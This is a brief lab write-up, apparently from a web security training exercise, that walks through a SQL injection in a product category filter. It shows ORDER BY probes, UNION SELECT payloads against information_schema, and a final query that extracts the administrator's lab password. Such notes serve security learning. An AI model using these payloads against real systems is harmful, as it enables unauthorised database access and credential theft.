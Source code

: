 Lab: SQL injection attack, listing the database contents on non-Oracle databases
Vuln : SQLi in product category filter.
Task : Retrive data from tables to get username and password of administrator.

' order by 1--  HTTP/2 200 OK
' order by 2--  HTTP/2 200 OK 
' order by 3--  HTTP/2 500 Internal Server Error

'+union+SELECT+table_name,null+FROM+information_schema.tables-- : return all table names.
table : users_smtvsv

'union+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name+%3d+'users_smtvsv'-- : username_oywtii and email

'+union++Select+username_oywtii,password_lvjwgs+from+users_smtvsv--
username : administrator
passoword: kzpn2ajzx6hfdqtjtt4g
